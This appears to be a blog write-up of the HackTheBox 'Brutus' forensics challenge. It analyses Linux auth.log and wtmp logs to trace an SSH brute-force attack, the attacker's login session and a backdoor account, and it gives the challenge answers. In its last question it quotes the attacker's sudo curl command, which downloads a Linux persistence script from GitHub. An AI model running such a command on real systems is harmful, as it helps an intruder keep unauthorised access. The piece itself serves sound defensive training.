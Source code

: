 ```yaml
---
title: "Hackthebox Brutus Sherlock"
date: 2025-02-05
media_subpath: /assets/posts/2025-02-05-hackthebox-brutus-sherlock
published: false
layout: post
categories:
- ctf
- blue team
tags:
- linux
---
```


To begin the sherlock we are given the following scenario:  

"In this very easy Sherlock, you will familiarize yourself with Unix auth.log and wtmp logs. We'll explore a scenario where a Confluence server was brute-forced via its SSH service. After gaining access to the server, the attacker performed additional activities, which we can track using auth.log. Although auth.log is primarily used for brute-force analysis, we will delve into the full potential of this artifact in our investigation, including aspects of privilege escalation, persistence, and even some visibility into command execution."

We are also given two different kinds of linux log files, `auth.log` and `wtmp`. A quick google search or ChatGPT reveals which kind of information these log files give us:  

**auth.log**  
- Stores authentication logs for both successful or failed logins, and authentication processes 
- Text file.  


**wtmp**  
- Keeps track of historical data of every log-in and logout activity in the form of a binary, the historic data of the `utmp` file which stores logs about the current session.  
- Since it's in the form of a binary file, need to use tools like `utmpdump` or `last` to view it.

### Question 1

**Analyze the auth.log. What is the IP address used by the attacker to carry out a brute force attack?**

During a brute force attack there will almost definetly be a large number of failed attempts and scrolling through `auth.log`, when these failed attempts occur an event containing "Failed password" is logged. We can grep for "Failed password" to get the answer.  

`grep "Failed password" auth.log`  

From this we get the following output  

![brutus_q1_output_1.png](brutus_q1_output_1.png)  

Revealing the answer to be `65.2.161.68`  

### Question 2

**The bruteforce attempts were successful and attacker gained access to an account on the server. What is the username of the account?**  

To find out what is logged after a successful login attempt we can try grep again for "password". This shows that "Accepted password" is logged on successful authentication attemps.  

Now using the following command to find successful login attempts:  

`grep "Accepted password"`  

This gives the following output:

![brutus_q2_output_1.png](brutus_q2_output_1.png)  

We know the malicious ip, which gives us the answer "root"

### Question 3

**Identify the timestamp when the attacker logged in manually to the server to carry out their objectives. The login time will be different than the authentication time, and can be found in the wtmp artifact.**  

We know the attacker gained first gained access on `Mar  6 06:31:40` from the previous questions, now its important to know the difference between `wtmp` and `auth.log` log files. Both store logs related to authentication but `wtmp` will store timestamps of when sessions were created. This is important because we want to find when the attacker manually logged in. Looking at the accepted passwords logs from `auth.log` reveals the first two accepted passwords for root were at `Mar  6 06:31:40` and `Mar  6 06:32:44` but when analysing the `wtmp` file using the following command:

`utmpdump wtmp`  

We get the output:  

![brutus_q3_output_1.png](brutus_q3_output_1.png)  

Which tells us the first session was established at `2024-03-06T06:32:45`. Why was there a session established for the successful authentication attempt at `Mar  6 06:32:44` but not at `Mar  6 06:31:40`? Because the first successful authentication attempt was during the brute-force attack so it didn't bother establishing a session. Therefore our answer is `2024-03-06 06:32:45`  

### Question 4

**SSH login sessions are tracked and assigned a session number upon login. What is the session number assigned to the attacker's session for the user account from Question 2?**  

the `wtmp` file stores details about the session but not the ID which we know by looking at the output from `utmpdump`. So the answer must be in `auth.log`. We can look at the logs surrounding the successful authentication attempt from Question 2 using sed:  

`sed -n "320,330p" auth.log`  

Which shows us:  

![brutus_q4_output_1.png](brutus_q4_output_1.png)  

Giving us the answer 37  

### Question 5

**The attacker added a new user as part of their persistence strategy on the server and gave this new user account higher privileges. What is the name of this account?**  

Again we know the details of `wtmp` won't contain our answer here so we must look in `auth.log`. We know if a user was created on the linux machines commands like `useradd` or `adduser` would likely have been used. We can grep for these commands:  

`grep "useradd" auth.log`  

Which shows  

![brutus_q5_output_1.png](brutus_q5_output_1.png)  

Giving us the answer "cyberjunkie"

### Question 6  

**What is the MITRE ATT&CK sub-technique ID used for persistence by creating a new account?**  

This answer can be found by a google search like "MITRE ID persistence by creating new account" and from the MITRE ATT&CK page for `T1136` we get the sub technique for creating a new local account, `T1136.001`.  

### Question 7  

**What time did the attacker's first SSH session end according to auth.log?**  

The question already tells us were looking in auth.log, we know the session id is 37, we can grep for this:  

`grep "session 37" auth.log`  

Which gives us:  

![brutus_q7_output_1.png](brutus_q7_output_1.png)  

So the answer is `2024-03-06 06:37:24`  

### Question 8  

**The attacker logged into their backdoor account and utilized their higher privileges to download a script. What is the full command executed using sudo?**  

the `sudo` command which the attacker used is a command which requires authentication. Again from looking at the `utmpdump wtmp` output from question 3 it doesn't look like our answer is here so were looking at `auth.log` for the answer. We know the command executed contained `sudo` so grepping for `sudo`:  

`grep "sudo" auth.log`  

We get:  

![brutus_q8_output_1.png](brutus_q8_output_1.png)  

Giving us the answer `/usr/bin/curl https://raw.githubusercontent.com/montysecurity/linper/main/linper.sh`  

### Review / Skills learned  

This lab was very easy and straightforward, all the knowledge that was required was basic linux skills with a little bit of problem solving.




